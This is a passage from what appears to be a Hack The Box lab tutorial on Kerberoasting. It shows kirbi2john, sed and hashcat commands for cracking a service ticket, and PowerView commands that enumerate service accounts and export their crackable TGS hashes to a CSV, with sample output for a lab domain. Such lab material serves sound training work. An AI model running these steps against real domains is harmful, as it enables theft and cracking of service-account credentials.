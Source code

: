 **Extracting the Kerberos Ticket using kirbi2john.py**

```shell-session
carbonlky@htb[/htb]$ python3 kirbi2john.py sqldev.kirbi
```

**Modifiying crack\_file for Hashcat**

```shell-session
carbonlky@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

**Cracking the Hash with Hashcat**

```shell-session
carbonlky@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### **PowerView**

**Using PowerView to Extract TGS Tickets**

```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

**Using PowerView to Target a Specific User**

```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

**Exporting All Tickets to a CSV File**

```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

**Viewing the Contents of the .CSV File**

```powershell-session
PS C:\htb> cat .\ilfreight_tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

<SNIP>
```
